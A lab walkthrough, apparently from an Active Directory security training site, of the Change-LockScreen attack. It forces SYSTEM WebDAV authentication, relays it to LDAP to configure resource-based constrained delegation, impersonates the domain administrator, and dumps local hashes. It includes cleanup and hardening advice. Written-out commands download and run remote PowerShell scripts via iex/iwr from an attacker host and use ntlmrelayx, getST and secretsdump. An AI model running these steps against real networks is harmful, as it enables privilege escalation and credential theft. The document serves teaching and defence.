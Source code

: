 ```yaml
---
description: >-
  Abuse the lockscreen image changing functionality to achieve a webdav network
  authentication as SYSTEM from the given computer. Then relay the
  authentication to the Active Directory LDAP service in or
---
```


# Change-LockScreen

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open PowerShell and execute the following command to enable WebDav.

```
Install-WindowsFeature WebDAV-Redirector –Restart
```

2\. After the server restarts Open the "Windows Defender Firewall" to open up the SMB port.

![](<../../../.gitbook/assets/image (38).png>)

3\. Click on "Allow an app or feature through Windows Defender Firewall"

![](<../../../.gitbook/assets/image (2).png>)

4\. Select "File and Printer sharing" and click on "OK"

![](<../../../.gitbook/assets/image (23).png>)

## Attacking

### How it works

Abuse the lockscreen image changing functionality to achieve a webdav network authentication as SYSTEM from the given computer. Then relay the authentication to the Active Directory LDAP service in order to set up Resource-Based Constrained Delegation to that specific machine.

### Tools

* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)
* [Change-LockScreen](https://github.com/nccgroup/Change-Lockscreen)
* [Impacket](https://github.com/SecureAuthCorp/impacket)

### Executing the attack

#### Prerequisite

* Low priv shell on a machine
* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* WebDAV Redirector feature must be installed on the victim machine. (W10 has it by default, but manually installed on server 2016 and later)
* A DNS record pointing to the attacker’s machine (By default authenticated users can do this)

#### Executing the attack

1. It is expected that a low privileged shell is already gained on `Web01` through the SQL server.

{% content-ref url="../sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

2\. Get the machine account Qouta from the domain with crackmapexec:

```
crackmapexec ldap 10.0.0.5 -u richard -p Sample123 -M MAQ
```

![](<../../../.gitbook/assets/image (9).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

2\. Create machine account `FAKE01` with password `123456` with PowerMad:

```
iex (iwr http://192.168.248.3:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../.gitbook/assets/image (56).png>)

3\. Create a DNS record for webdav to our attacking machine with Invoke-DNSUpdate. The DNS record is required for webdav connection to work. It won't connect through an IP only with a hostname.

```
iex (iwr http://192.168.248.3:8090/Invoke-DNSUpdate.ps1 -usebasicparsing)
Invoke-DNSUpdate -DNSType A -DNSName webdav.amsterdam.bank.local -DNSData 192.168.248.3 -Realm amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (19).png>)

We now have all our prerequisites. Time to escalate our privileges.

4\. Run NTLMRelay on our Kali machine and set it up so it will write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute that allows our created computerobject `FAKE01` to actonbehalf `WS01`:

```
python3 /opt/impacket/examples/ntlmrelayx.py -t ldap://10.0.0.3 --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg
```

![](<../../../.gitbook/assets/image (34).png>)

5\. Run the Change-LockScreen tool in the shell of WS01 and check the ntlmrelay output. The Change-LockScreen command will give an error but this doesn't matter:

```
iex (iwr http://192.168.248.3:8090/Change-Lockscreen.ps1 -usebasicparsing)
change-lockscreen -webdav \\webdav@80\
```

![](../../../.gitbook/assets/image.png)

When we check the ntlmrelay output we see that `FAKE01` can now impersonate users on `WEB01`.

![](<../../../.gitbook/assets/image (64).png>)

If we open the attribute editor on DC02 for WEB01 we can see the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute:

![](<../../../.gitbook/assets/image (51).png>)

6\. Create a ticket using `FAKE01` impersonating the domain admin `Administrator` using impackets getST.py. Fill in the password `123456`.

```
getST.py amsterdam/FAKE01@10.0.0.5 -spn cifs/web01.amsterdam.bank.local -impersonate administrator -dc-ip 10.0.0.3
```

![](<../../../.gitbook/assets/image (32).png>)

7\. Use this ticket and run `secretsdump.py` to dump the local admin hashes of `WEB01`.

```
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass web01.amsterdam.bank.local
```

![](<../../../.gitbook/assets/image (44).png>)

### Cleanup

1. Login to `DC02` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `WEB01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity web01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

4\. Open "DNS Manager" and expand DC02 --> Forward Lookup Zones --> and click on `Amsterdam.bank.local.`Remove the DNS-record created for webdav:

![](<../../../.gitbook/assets/image (33).png>)

4\. From our Kali machine set the SQL server settings back:

```
mssql-cli -S 10.0.0.5 -U sa -P sa
EXEC sp_configure 'xp_cmdshell',0
RECONFIGURE
EXEC sp_configure 'show advanced options',0
RECONFIGURE
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

* Remove the WebDav client from servers and workstations.

### Detection



## References

{% embed url="https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}
